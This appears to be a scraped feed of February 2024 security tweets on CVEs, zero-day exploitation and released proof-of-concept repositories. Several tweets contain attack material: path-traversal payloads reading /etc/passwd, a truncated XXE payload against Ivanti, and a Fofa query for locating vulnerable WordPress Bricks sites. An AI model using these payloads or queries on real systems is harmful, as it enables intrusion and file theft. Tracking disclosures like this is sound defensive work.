# Dinosn
**https://twitter.com/Dinosn/status/1763207009883578414 _at 2024-02-29, 14:18:04_**
<blockquote>
Apache Solr Backup/Restore APIs RCE Poc (CVE-2023-50386)
https://t.co/CJIdof7Q1j
</blockquote>

* https://github.com/vvmdx/Apache-Solr-RCE_CVE-2023-50386_POC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1763162340722348408 _at 2024-02-29, 11:20:34_**
<blockquote>
⚠️ Lazarus Group hackers found exploiting a Windows kernel zero-day #vulnerability (CVE-2024-21338) weeks after a patch was released, allowing them to gain system-level control and disable security software on targeted systems.

Details here: https://t.co/KrOZA7iB3F

#hacking
</blockquote>

* https://thehackernews.com/2024/02/lazarus-hackers-exploited-windows.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>209</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1763112467654414386 _at 2024-02-29, 08:02:23_**
<blockquote>
#Lazarus exploited a flaw in the Windows AppLocker driver (appid.sys) as a zero-day to gain kernel-level access and turn off security tools.CVE-2024-21338
Beyond BYOVD with an Admin-to-Kernel Zero-Day
https://t.co/irFNz3Dntt https://t.co/Hfco33UPBm
</blockquote>

* https://decoded.avast.io/janvojtesek/lazarus-and-the-fudmodule-rootkit-beyond-byovd-with-an-admin-to-kernel-zero-day/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>172</code></td>
<td>Favorites: <code>477</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1763079341934870752 _at 2024-02-29, 05:50:46_**
<blockquote>
🛑 Attention APT hunters! Chinese hacker groups UNC5325 &amp; UNC3886 are exploiting Ivanti flaws (CVE-2024-21893 &amp; CVE-2024-21887) to deploy persistent malware (LITTLELAMB.WOOLTEA, PITSTOP, PITDOG, PITJET, PITHOOK).

Learn more: https://t.co/azo0heBftu

#hacking #cybersecurity
</blockquote>

* https://thehackernews.com/2024/02/chinese-hackers-exploiting-ivanti-vpn.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>220</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1763050163298308380 _at 2024-02-29, 03:54:49_**
<blockquote>
Zero-Day Alert (CVE-2024-21338): Lazarus Group Exploits Windows Kernel Vulnerability https://t.co/uEzAPySVEA
</blockquote>

* https://securityonline.info/zero-day-alert-cve-2024-21338-lazarus-group-exploits-windows-kernel-vulnerability/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>207</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1762738092279050390 _at 2024-02-28, 07:14:45_**
<blockquote>
Code injection or backdoor : A new look at Ivanti’s CVE-2021-44529 : https://t.co/HCMr3dtLMC
</blockquote>

* https://www.labs.greynoise.io/grimoire/2024-02-what-is-this-old-ivanti-exploit/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1762723488039907541 _at 2024-02-28, 06:16:44_**
<blockquote>
RT @W01fh4cker: CVE-2024-23334

Poc for windows: /static/../D:\flag.txt
Poc for Linux: /static/../../../../etc/passwd [need to fuzz "../"]…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1762590491277672659 _at 2024-02-27, 21:28:15_**
<blockquote>
RT @AustinLarsen_: Our team @Mandiant is releasing details on 🇨🇳 #UNC5325, who exploited CVE-2024-21893 and CVE-2024-21887 to deploy novel…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1762489090929267095 _at 2024-02-27, 14:45:19_**
<blockquote>
Patch your LiteSpeed Cache plugin for #WordPress against CVE-2023-40000. This flaw could lead to unauthorized site takeover.

Click for details: https://t.co/Sb1XpzctY5

#cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2024/02/wordpress-litespeed-plugin.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1762387140825043062 _at 2024-02-27, 08:00:12_**
<blockquote>
Privilege escalation through Chrome extension (CVE-2023-4369)
Credits Derin Eryılmaz (@deryilz)

https://t.co/6ow4vsiW8o

#chrome #infosec https://t.co/FrjpKdIC33
</blockquote>

* https://0x44.xyz/blog/cve-2023-4369/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>146</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1762353041595134344 _at 2024-02-27, 05:44:42_**
<blockquote>
⚠️ Alert — Critical security flaw (CVE-2024-1071) found in Ultimate Member #WordPress plugin used by 200k sites.

Read more: https://t.co/vZHodfyW7A

Update to version 2.8.3 to fix SQL injection #vulnerability and prevent data breaches.

#cybersecurity #hacking #tech
</blockquote>

* https://thehackernews.com/2024/02/wordpress-plugin-alert-critical-sqli.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1762250455315296667 _at 2024-02-26, 22:57:04_**
<blockquote>
RT @theflow0: Last year I discovered multiple bugs in virtio-net for VirtualBox (CVE-2023-22098, CVE-2023-22099, CVE-2023-22100) and wrote…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>151</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1762140866268020921 _at 2024-02-26, 15:41:36_**
<blockquote>
RT @HunterMapping: 🚨Alert🚨CVE-2024-1071: WordPress Ultimate Member Plugin is under active attack!
⚠It manifests in versions 2.1.3 to 2.8.2…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1762061199632412759 _at 2024-02-26, 10:25:02_**
<blockquote>
CVE-2024-26592 &amp; 26594: Critical Linux Kernel Flaws Open Door for Code Execution and Data Theft https://t.co/smRbZr1fjP
</blockquote>

* https://securityonline.info/cve-2024-26592-26594-critical-linux-kernel-flaws-open-door-for-code-execution-and-data-theft/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1761732231943401884 _at 2024-02-25, 12:37:50_**
<blockquote>
CVE-2024-23897 - Jenkins &lt;=2.441 &amp; &lt;=LTS 2.426.2 PoC And Scanner https://t.co/GYGBTyOErf
</blockquote>

* http://www.kitploit.com/2024/02/cve-2024-23897-jenkins-2441-lts-24262.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1761719122444837125 _at 2024-02-25, 11:45:44_**
<blockquote>
WordPress Ultimate Member Plugin Under Active Attack: Critical Flaw (CVE-2024-1071) Impacts 200k Sites https://t.co/6M03Ae9zir
</blockquote>

* https://securityonline.info/cve-2024-1071-wordpress-ultimate-member-plugin-under-active-attack/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# akaclandestine
**https://twitter.com/akaclandestine/status/1761698912933462509 _at 2024-02-25, 10:25:26_**
<blockquote>
PoC + Nuclei + Query CVE-2024-25600 Unauth RCE - WordPress Bricks - 1.9.6 CVSS 9.8

Query Fofa: body="/wp-content/themes/bricks/"

POC : https://t.co/i1rGwSHJbn) 

Nuclei : https://t.co/24WFRoIegF)
</blockquote>

* https://github.com/Chocapikk/CVE-2024-25600
* https://github.com/Christbowel/CVE-2024-25600_Nuclei-Template

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# adrielsec
**https://twitter.com/adrielsec/status/1761441134293717266 _at 2024-02-24, 17:21:07_**
<blockquote>
PoC + Nuclei + Query CVE-2024-25600 Unauth RCE - WordPress Bricks &lt;= 1.9.6 CVSS 9.8

Query Fofa: body="/wp-content/themes/bricks/"
PoC: https://t.co/PKxK091tSN
Nuclei: https://t.co/gN8IrT0Hpc

#bugbounty #bugbountytip #bugbountytips https://t.co/wyF7IqDYcO
</blockquote>

* https://github.com/Chocapikk/CVE-2024-25600
* https://github.com/Christbowel/CVE-2024-25600_Nuclei-Template

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>133</code></td>
<td>Favorites: <code>482</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1761408419045495004 _at 2024-02-24, 15:11:07_**
<blockquote>
Analyzing the Google Chrome V8 CVE-2024-0517 Out-of-Bounds Code Execution Vulnerability https://t.co/Kuap8tACHf
</blockquote>

* https://dev.to/tutorialboy/analyzing-the-google-chrome-v8-cve-2024-0517-out-of-bounds-code-execution-vulnerability-28i3

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1761374575449845949 _at 2024-02-24, 12:56:38_**
<blockquote>
CVE-2024-25600 vulnerability 🕳️ found in the Bricks Builder plugin for WordPress. The vulnerability allows for unauthenticated remote code execution on affected websites...

PoC
https://t.co/TfD9F5XW98 https://t.co/LAfdXfktYL
</blockquote>

* https://github.com/Chocapikk/CVE-2024-25600

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# eternalsakura13
**https://twitter.com/eternalsakura13/status/1761192386607350158 _at 2024-02-24, 00:52:40_**
<blockquote>
@xvonfers My CVE-2024-23214: heap-use-after-free on gl::Texture::releaseTexImageFromSurface poc public:
https://t.co/TL777gLghA

I don't have time to research its exploitability, so if anyone is interested in writing a writeup for it, it would be greatly appreciated.
</blockquote>

* https://github.com/eternalsakura/my_poc/tree/main/CVE-2024-23214

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1761120547340234828 _at 2024-02-23, 20:07:13_**
<blockquote>
RT @Sonar_Research: 🔥Multiple XSS vulnerabilities in popular CMS Joomla! (CVE-2024-21726) 🔥

PHP bug could be used to bypass sanitization -…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ripstech
**https://twitter.com/ripstech/status/1761058954577137982 _at 2024-02-23, 16:02:28_**
<blockquote>
🔥Multiple XSS vulnerabilities in popular CMS Joomla! (CVE-2024-21726) 🔥

PHP bug could be used to bypass sanitization - We just disclosed the technical details behind the recent Joomla vulnerability:

https://t.co/9JVMjj5FO9 https://t.co/k8s28WDD7f
</blockquote>

* https://www.sonarsource.com/blog/joomla-multiple-xss-vulnerabilities/?utm_medium=social&utm_source=twitter&utm_campaign=research&utm_content=blog-joomla-multiple-xss-vulnerabilities-240220-&utm_term=

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>278</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1761031711067197603 _at 2024-02-23, 14:14:12_**
<blockquote>
RT @TheHackersNews: ⚠️ Critical security flaw (CVE-2024-25600) in Bricks theme for #WordPress (used by 25,000+ sites) is being exploited by…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>139</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1761031634781192484 _at 2024-02-23, 14:13:54_**
<blockquote>
RT @TheHackersNews: 🚨 Attention #VMware users!

New flaws identified (CVE-2024-22245 &amp; CVE-2024-22250) in the EAP plugin. Attackers could e…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>164</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1760974742134378946 _at 2024-02-23, 10:27:50_**
<blockquote>
🚨Alert🚨CVE-2024-1451:An issue has been discovered in GitLab CE/EE affecting all versions starting from 16.9 before 16.9.1. 
⚠A crafted payload added to the user profile page could lead to a stored XSS on the client side, allowing attackers to perform arbitrary actions on… https://t.co/DKU7yf3KiJ
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1760893905825067103 _at 2024-02-23, 05:06:37_**
<blockquote>
Researchers uncovered details of a major #vulnerability (CVE-2024-23204) in the #Apple Shortcuts app that could have exposed sensitive user data without consent on older #iOS, iPadOS, #macOS, and watchOS devices.

Learn more: https://t.co/pGeMMXOTHe

#cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2024/02/researchers-detail-apples-recent-zero.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>120</code></td>
</tr></table>

---

# DailyDarkWeb
**https://twitter.com/DailyDarkWeb/status/1760680914479411587 _at 2024-02-22, 15:00:16_**
<blockquote>
Alleged Microsoft Outlook CVE-2024-21413 RCE Exploit is shared

The bug not only allows the leaking of the local NTLM information, but it may also allow remote code execution and more as an attack vector. It could also bypass the Office Protected View when it’s used as an attack https://t.co/AaGqN0dIQl
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>85</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1760603951303401720 _at 2024-02-22, 09:54:27_**
<blockquote>
CVE-2024-22243: Spring Framework Flaw Opens Doors to Redirects and SSRF Attacks https://t.co/KdRPiAWO2z
</blockquote>

* https://securityonline.info/cve-2024-22243-spring-framework-flaw-opens-doors-to-redirects-and-ssrf-attacks/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1760602002550075564 _at 2024-02-22, 09:46:42_**
<blockquote>
RT @win3zz: CVE-2024-25600: Unauth. RCE vulnerability caused by PHP code injection in Bricks Builder, a WordPress site builder with over 25…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>215</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1760549226663002417 _at 2024-02-22, 06:16:59_**
<blockquote>
RT @theflow0: Last year I discovered multiple bugs in virtio-net for VirtualBox (CVE-2023-22098, CVE-2023-22099, CVE-2023-22100) and wrote…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1760527024836194592 _at 2024-02-22, 04:48:46_**
<blockquote>
RT @bl4sty: I created a hyper realistic and handwavey re-enactment of the lockbit CVE-2023-3824 attack after some insights from PHP interna…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1760406393360961800 _at 2024-02-21, 20:49:25_**
<blockquote>
RT @win3zz: CVE-2024-25600: Unauth. RCE vulnerability caused by PHP code injection in Bricks Builder, a WordPress site builder with over 25…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>217</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1760351417473106245 _at 2024-02-21, 17:10:58_**
<blockquote>
💣 CVE-2024-25600: WordPress’s Bricks Builder RCE Flaw Under Active Exploitation.

IPs used in attacks:
200.251.23.57
92.118.170.216
103.187.5.128
149.202.55.79
5.252.118.211
91.108.240.52

[+] https://t.co/chRg7Y8yWV
[+] https://t.co/3wajGiNppi

PoC 👇
</blockquote>

* https://patchstack.com/articles/critical-rce-patched-in-bricks-builder-theme/
* https://www.bleepingcomputer.com/news/security/hackers-exploit-critical-rce-flaw-in-bricks-wordpress-site-builder/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# win3zz
**https://twitter.com/win3zz/status/1760328659208974363 _at 2024-02-21, 15:40:32_**
<blockquote>
CVE-2024-25600: Unauth. RCE vulnerability caused by PHP code injection in Bricks Builder, a WordPress site builder with over 25,000+ active installations.

Severity: Critical (CVSS 9.8)
Root cause analysis: https://t.co/E5K0sIZQn9
PoC: https://t.co/8DflZk7QIW
Mitigation: Upgrade https://t.co/gQWw2Ov81h
</blockquote>

* https://snicco.io/vulnerability-disclosure/bricks/unauthenticated-rce-in-bricks-1-9-6
* https://github.com/Chocapikk/CVE-2024-25600

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>215</code></td>
<td>Favorites: <code>809</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1760220391715332195 _at 2024-02-21, 08:30:19_**
<blockquote>
Code injection or backdoor: A new look at Ivanti’s CVE-2021-44529
https://t.co/uYGPY1hXgg
</blockquote>

* https://www.labs.greynoise.io/grimoire/2024-02-what-is-this-old-ivanti-exploit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1760192828188025336 _at 2024-02-21, 06:40:47_**
<blockquote>
Nuclei template and information about the POC for CVE-2024-25600, Wordpress Bricks Builder, RCE https://t.co/83S33Q035v
</blockquote>

* https://github.com/Christbowel/CVE-2024-25600_Nuclei-Template

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>153</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1760101762306826301 _at 2024-02-21, 00:38:55_**
<blockquote>
RT @bl4sty: I created a hyper realistic and handwavey re-enactment of the lockbit CVE-2023-3824 attack after some insights from PHP interna…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# fdfalcon
**https://twitter.com/fdfalcon/status/1760026393306698034 _at 2024-02-20, 19:39:26_**
<blockquote>
RT @theflow0: Last year I discovered multiple bugs in virtio-net for VirtualBox (CVE-2023-22098, CVE-2023-22099, CVE-2023-22100) and wrote…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>154</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1760003162944221241 _at 2024-02-20, 18:07:07_**
<blockquote>
RT @bl4sty: I created a hyper realistic and handwavey re-enactment of the lockbit CVE-2023-3824 attack after some insights from PHP interna…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1760000202336023035 _at 2024-02-20, 17:55:22_**
<blockquote>
RT @TheHackersNews: ⚠️ CISA warns of hackers exploiting a security flaw (CVE-2020-3259) in #Cisco Adaptive Security Appliance (ASA) and Fir…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1759997090594468146 _at 2024-02-20, 17:43:00_**
<blockquote>
Vulnerabilidad Microsoft Outlook MonikerLink  

Fuga de credenciales y ejecución remota de código cuando se encadena con CVE-2023-21716 (a través del panel de vista previa) 

 PoC disponibleCVE-2024-21413) un RCE de Microsoft Outlook
https://t.co/ceghAWQqZx https://t.co/GLd0nM78M8
</blockquote>

* https://github.com/duy-31/CVE-2024-21413

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1759992805554897157 _at 2024-02-20, 17:25:58_**
<blockquote>
RT @theflow0: Last year I discovered multiple bugs in virtio-net for VirtualBox (CVE-2023-22098, CVE-2023-22099, CVE-2023-22100) and wrote…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>151</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ripstech
**https://twitter.com/ripstech/status/1759985164149764339 _at 2024-02-20, 16:55:36_**
<blockquote>
⚠️ Multiple XSS vulnerabilities in popular CMS Joomla! (CVE-2024-21726) ⚠️

Attackers could trick administrators into clicking on a malicious link and gain RCE:

https://t.co/9JVMjj6dDH

#appsec #security #vulnerability #joomla
</blockquote>

* https://www.sonarsource.com/blog/joomla-multiple-xss-vulnerabilities/?utm_medium=social&utm_source=twitter&utm_campaign=research&utm_content=blog-joomla-multiple-xss-vulnerabilities-240220-&utm_term=

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1759954503783075875 _at 2024-02-20, 14:53:46_**
<blockquote>
Microsoft Outlook Remote Code Execution Vulnerability PoC (CVE-2024-21413 ) : https://t.co/ny6MsWToOu credits @xaitax 

Ref : https://t.co/EBgHGMQGmN
</blockquote>

* https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
* https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1759892380746932604 _at 2024-02-20, 10:46:55_**
<blockquote>
RT @vxunderground: Lockbit ransomware group administration claims that law enforcement agencies compromised them by exploiting CVE-2023-382…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1759890639301308871 _at 2024-02-20, 10:40:00_**
<blockquote>
📢El tema Bricks de WordPress sufre un ataque activo
https://t.co/iqh1VbyGqa

🚨El fallo crítico afecta a más de 25.000 sitios web

CVE-2024-25600 (CVSS score: 9.8) RCE

Malware activo desactiva plugins de seguridad como Wordfence y Sucuri
https://t.co/pdK0FhzKUC https://t.co/JnMcbA94eH
</blockquote>

* https://patchstack.com/articles/critical-rce-patched-in-bricks-builder-theme/
* https://snicco.io/vulnerability-disclosure/bricks/unauthenticated-rce-in-bricks-1-9-6

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1759869460855595172 _at 2024-02-20, 09:15:50_**
<blockquote>
⚠️ Critical security flaw (CVE-2024-25600) in Bricks theme for #WordPress (used by 25,000+ sites) is being exploited by attackers to run malicious PHP code on vulnerable installations.

Learn more: https://t.co/qtZc6lbuAj

#cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2024/02/wordpress-bricks-theme-under-active.html

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>182</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1759590018996170895 _at 2024-02-19, 14:45:26_**
<blockquote>
RT @xaitax: ⚠️ Update for CVE-2024-21413 💣
Managed &amp; confirmed Microsoft Outlook Remote Code Execution (RCE) but won't publish details (yet…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>213</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1759371467542978806 _at 2024-02-19, 00:17:00_**
<blockquote>
RT @xaitax: ⚠️ Update for CVE-2024-21413 💣
Managed &amp; confirmed Microsoft Outlook Remote Code Execution (RCE) but won't publish details (yet…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>240</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# HaifeiLi
**https://twitter.com/HaifeiLi/status/1759348970348830872 _at 2024-02-18, 22:47:36_**
<blockquote>
RT @xaitax: ⚠️ Update for CVE-2024-21413 💣
Managed &amp; confirmed Microsoft Outlook Remote Code Execution (RCE) but won't publish details (yet…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>240</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1759145820816044494 _at 2024-02-18, 09:20:21_**
<blockquote>
RT @RootMoksha: CVE-2024-22024,  XXE on Ivanti Connect Secure

payload encoded base64:

&lt;?xml version="1.0" ?&gt;&lt;!DOCTYPE root [&lt;!ENTITY % xx…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1759144629478502756 _at 2024-02-18, 09:15:37_**
<blockquote>
RT @HunterMapping: 🚨Alert🚨CVE-2024-21413 Microsoft Outlook RCE Flaw 
POC Released
📊219.8K+ Services are found on the https://t.co/WrjZaG0jR…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>116</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 7h3h4ckv157
**https://twitter.com/7h3h4ckv157/status/1759113114476544429 _at 2024-02-18, 07:10:23_**
<blockquote>
🚨 CVE-2024-21413: Microsoft Office Outlook Remote Code Execution Vulnerability ‼️

This vulnerability affects: 

- Microsoft Office 2016
- Microsoft Office LTSC 2021
- Microsoft 365 Apps for Enterprise
- Microsoft Office 2019 

#infosec #Hacking #Pentesting
#CybersecurityNews
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1759105797370372152 _at 2024-02-18, 06:41:19_**
<blockquote>
CVE-2024-20328 - #ClamAV Not So Calm 🤷

https://t.co/iaGHWicwdB

https://t.co/cCsMzvDjw7
</blockquote>

* https://amitschendel.github.io/vulnerabilites/CVE-2024-20328/
